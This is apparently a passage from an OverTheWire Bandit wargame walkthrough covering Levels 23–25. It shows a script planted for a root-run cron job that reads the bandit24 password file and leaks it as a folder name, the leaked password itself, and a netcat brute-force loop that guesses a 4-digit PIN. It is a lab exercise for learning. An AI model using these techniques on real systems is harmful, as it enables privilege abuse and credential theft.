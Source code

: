 ```
bandit23@bandit:/var/spool/bandit24$ cd /tmp/tmp.Sn3V5m9XNG
bandit23@bandit:/tmp/tmp.Sn3V5m9XNG$ ls -al
total 9980
drwx------    2 bandit23 bandit23     4096 Jun  4 15:15 .
drwxrwx-wt 1804 root     root     10211328 Jun  4 15:15 ..
```

- Now create a script that will overwrite the current one.

```
#!/bin/bash

mkdir -p /tmp/tmp.qylmId2Ser/$(cat /etc/bandit_pass/bandit24)
```

```
bandit23@bandit:/tmp/tmp.Sn3V5m9XNG$ ls -al /tmp/tmp.qylmId2Ser/
total 9984
drwxrwxr-x    3 bandit24 bandit24     4096 Jun  4 15:32 .
drwxrwx-wt 1826 root     root     10211328 Jun  4 15:32 ..
drwxrwxr-x    2 bandit24 bandit24     4096 Jun  4 15:32 gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.Sn3V5m9XNG$ cd /tmp/tmp.qylmId2Ser/
bandit23@bandit:/tmp/tmp.qylmId2Ser$ ls
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.qylmId2Ser$ cd gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8/
```

🏁 Password:

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

✅ Level 24 → Level 25

🧠 Objective: A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. 
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

🛠 Bruteforce Script:

```
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

```
bandit24@bandit:$ mktemp -d
bandit24@bandit:$ cd /tmp/tmp.ImCqV5PqR7
bandit24@bandit:/tmp/tmp.ImCqV5PqR7$ nano brute.sh
bandit24@bandit:/tmp/tmp.ImCqV5PqR7$ chmod +x brute.sh
bandit24@bandit:/tmp/tmp.ImCqV5PqR7$ ./brute.sh

bandit24@bandit:/tmp/tmp.ImCqV5PqR7$ ls -al
total 10516
drwx------    2 bandit24 bandit24     4096 Jun  4 15:42 .
drwxrwx-wt 1850 root     root     10211328 Jun  4 15:43 ..
-rwxrwxr-x    1 bandit24 bandit24      170 Jun  4 15:42 brute.sh
-rw-rw-r--    1 bandit24 bandit24   380000 Jun  4 15:42 possibilities.txt
```